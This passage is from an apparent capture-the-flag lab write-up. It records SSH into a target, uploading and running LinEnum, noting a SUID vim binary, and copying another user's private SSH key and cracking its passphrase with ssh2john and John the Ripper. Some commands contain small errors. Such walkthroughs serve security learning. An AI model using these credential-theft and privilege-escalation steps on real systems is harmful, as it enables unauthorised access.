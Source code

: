 ```sh
	ssh jan@10.10.205.103
	passwod:...
	cd .. to get to the home directory where you will find kay as a user
```
- But can't read the file 'pass.bat' in kay.  
- I will open a new terminal in my machine.  
- I will use LinEnum To get escalated privilege.  
```sh
	git clone https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
After downloading the linEnum.sh script, i  copied  the script to the target machine.
To do that I’ll use SCP.  

```sh
scp LinEnum.sh jan@10.10.205.103 :/dev/shm
```

Back to jan's machine.  
I’ll make it executable and run it.  

```sh
chmod +x LinEnum 
./LinEnum
 ```
Now this is interesting. Vim.basic is a SUID file, meaning we can run it with root privileges.

# Q8
What is the name of the other user you found.  
A="kay"

# Q9
If you have found another user, what can you do with this information?  
  
Doing a thorough look we can find out something interesting in Kay’s .ssh directory.  
There is a private key!  
`id_rsa`  
try logging in to kay
oops!!  we are missing a passphrase.

We can use john the ripper to crack this, specifically `ssh2john`.  
Located in ```
/usr/share/john/ssh2john

First copy the private key to my Computer.  
Before I start I need to make the id_rsa file compatible with JohnTheRipper.  
In order to that I’ll use ssh2john.py.

```sh
/usr/share/ssh2john.py kay_id_rsa > john_hash.txt
```
Run `JohnTheRipper` with `rockyou.txt` wordlist.
```sh
	john john_hash.txt -w=/usr/share/wordlists/rockyou.txt
```
Yay! we get the private key.
